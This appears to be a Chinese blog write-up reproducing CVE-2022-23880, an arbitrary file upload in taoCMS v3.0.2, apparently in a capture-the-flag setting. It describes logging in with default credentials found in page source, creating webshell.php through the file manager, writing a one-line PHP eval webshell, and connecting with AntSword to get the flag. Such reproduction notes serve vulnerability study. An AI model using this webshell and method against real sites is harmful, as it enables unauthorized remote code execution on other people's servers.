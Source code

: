 ```yaml
---
title: CVE-2022-23880
subtitle:
date: 2025-03-14T14:14:06+08:00
slug: 35608d4
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/a6f03e544d5ca46e09def5aca5fb9189.png)

taoCMS v3.0.2任意文件上传

![](images/47dd24950e9425573d1042defff4e7a2.png)

进入点击管理，F12查看源码，发现

![](images/1cffc7be416cce565b6747a4af7e3d06.png)

默认账号密码，尝试登陆

![](images/d1e95e841095d90f80cdaa68585ac6c1.png)



文件管理处，新建webshell.php文件，

![](images/11114c589e675274425a76a2d6842e3a.png)

写入一句话木马

```
<?php @eval($_POST['t1ng']);?>
```

右键复制链接

![](images/1a81a7c4d1cb7d180896dd2617e2c7dd.png)

蚁剑连接

![](images/cdbbc79285cd3fd93f7f2f4bedf30a50.png)



拿到flag

![](images/61bf2aed9225f01efa7ee4d03f10e37e.png)

